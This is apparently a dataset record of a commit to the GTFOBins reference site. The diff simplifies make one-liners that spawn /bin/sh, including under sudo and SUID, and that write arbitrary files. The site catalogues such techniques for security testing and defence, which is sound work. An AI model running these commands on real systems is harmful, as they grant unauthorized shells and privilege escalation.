

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/make.md, in a window 1280 px wide. Shown: the whole page at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1040 px from its top, so only the background shows below that.

Commit message:
Simplify make

```diff
--- a/_gtfobins/make.md
+++ b/_gtfobins/make.md
@@ -2,22 +2,18 @@
 functions:
   execute-interactive:
     - code: |
-        COMMAND='/bin/sh 1>&2'
-        make -s --eval="a := \$(info \$(shell $COMMAND))" --eval='all:'
-  execute-non-interactive:
-    - code: |
-        COMMAND=/usr/bin/id
-        make -s --eval="a := \$(info \$(shell $COMMAND))" --eval='all:'
+        COMMAND='/bin/sh'
+        make -s --eval=$'x:\n\t-'"$COMMAND"
   sudo-enabled:
     - code: |
-        COMMAND=/usr/bin/id
-        sudo make -s --eval="a := \$(info \$(shell $COMMAND))" --eval='all:'
+        COMMAND='/bin/sh'
+        sudo make -s --eval=$'x:\n\t-'"$COMMAND"
   suid-enabled:
     - code: |
-        COMMAND=/usr/bin/id
-        ./make -s --eval="a := \$(info \$(shell $COMMAND))" --eval='all:'
+        COMMAND='/bin/sh'
+        ./make -s --eval=$'x:\n\t-'"$COMMAND"
   file-write:
     - code: |
         LFILE=file_to_write
-        make -s --eval="a := \$(file >$LFILE,data)" --eval='all:'
+        make -s --eval="\$(file >$LFILE,data)" .
 ---
```
